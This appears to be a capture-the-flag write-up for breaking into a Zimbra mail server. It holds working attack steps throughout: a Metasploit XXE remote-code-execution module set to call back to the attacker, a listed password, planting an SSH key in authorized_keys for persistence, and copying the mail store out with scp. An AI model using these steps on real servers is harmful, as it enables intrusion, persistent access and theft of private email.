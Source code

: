 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find Vuln: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`
```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# -j will run it as a JOB
run
```
> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)
```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```
5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i <private-key> zimbra@mail.petromaz.ir`
7. Get Flag: MAZAPA_aee82fac0c8fb5818b26db37a577027c
8. Download Zimbra Data
```
scp -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```
9. Check Emails and Decode Files
**Base64 Decoder:** `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map](./09-258-3.xlsx)
